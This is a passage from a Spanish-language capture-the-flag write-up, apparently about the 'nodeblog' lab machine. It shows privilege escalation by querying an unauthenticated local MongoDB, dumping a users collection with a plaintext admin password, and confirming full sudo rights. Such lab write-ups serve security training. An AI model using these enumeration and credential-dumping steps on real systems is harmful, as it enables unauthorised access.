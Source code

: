### Escalada Privilegios

* * *

Anteriormente cuando filtramos los puertos internos abiertos vimos que el puerto 27017 estaba abierto. Es el puerto por defecto de `MongoDB`. Mediante el comando `mongo` accedemos a la consola de la base de datos

```bash
admin@nodeblog:~$ mongo
MongoDB shell version v3.6.8
connecting to: mongodb://127.0.0.1:27017
Implicit session: session { "id" : UUID("783344f4-3976-4db2-9403-29bb7ffdfee9") }
MongoDB server version: 3.6.8
Server has startup warnings: 
2022-12-14T12:37:01.867+0000 I CONTROL  [initandlisten] 
2022-12-14T12:37:01.869+0000 I CONTROL  [initandlisten] ** WARNING: Access control is not enabled for the database.
2022-12-14T12:37:01.869+0000 I CONTROL  [initandlisten] **          Read and write access to data and configuration is unrestricted.
2022-12-14T12:37:01.869+0000 I CONTROL  [initandlisten] 
```

Listando bases de datos encontramos `blog`. Listando colecciones vemos `users`. Listando el contenido encontramos unas credenciales

```bash
> show dbs
admin   0.000GB
blog    0.000GB
config  0.000GB
local   0.000GB
> use blog
switched to db blog
> show collections
articles
users
> db.users.find()
{ "_id" : ObjectId("61b7380ae5814df6030d2373"), "createdAt" : ISODate("2021-12-13T12:09:46.009Z"), "username" : "admin", "password" : "IppsecSaysPleaseSubscribe", "__v" : 0 }
```

Confirmamos que la password conrresponde al usuario `admin`. Listamos privilegios de sudo aportando la password encontrada y vemos que podemos ejecutar TODO

```bash
admin@nodeblog:~$ sudo -l
[sudo] password for admin: 
Matching Defaults entries for admin on nodeblog:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User admin may run the following commands on nodeblog:
    (ALL) ALL
    (ALL : ALL) ALL
```

